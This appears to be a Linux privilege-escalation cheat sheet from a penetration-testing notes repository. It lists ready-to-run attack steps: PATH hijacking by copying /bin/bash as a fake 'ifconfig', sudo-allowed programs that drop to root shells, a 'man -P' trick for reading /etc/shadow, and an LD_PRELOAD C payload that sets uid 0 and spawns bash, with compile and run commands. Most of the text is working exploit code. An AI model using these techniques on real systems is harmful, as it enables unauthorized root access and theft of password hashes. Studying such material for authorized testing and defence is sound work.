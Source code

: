 ```bash
cp /bin/bash /tmp/ifconfig
chmod +x /tmp/ifconfig # set permission
export PATH=/tmp:$PATH # set path so that /usr/bin/menu runs command from /tmp and not actual location
/usr/bin/menu
```

# [SUID Binaries](../../../../Tools/Shells/Linux/README.md#SUID-GUID)
##### Known SUID Binaries
```bash
/bin/ping
/bin/su
/bin/mount
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/chsh
```

# [SUDO](../../../../Tools/Shells/Linux/README.md#SUDO)
##### Common Sudo Binaries to Establish root Shells
```bash
less (!sh)
more (!sh)
Vi/Vim (:!sh)
nmap (--interactive + !sh)
ftp (!sh)
gdb (!sh)
python
Perl
lrb
lua
```
##### Common Sudo Binaries to Execute Commands
```bash
man -P "id" man
man -P "cat /etc/shadow" man
```
##### Docker
[dockerevil](https://github.com/pyperanger/dockerevil)

##### Sudo - Environment Variables - LD_PRELOAD
```c
/* File: preload.c */
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```
[preload.c](Files/preload.c)
```bash
# Compile C code and save as payload to run before desires sudo -l program.
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
sudo -l
sudo LD_PRELOAD=/tmp/preload.so <sudo -l program-name-here>
```
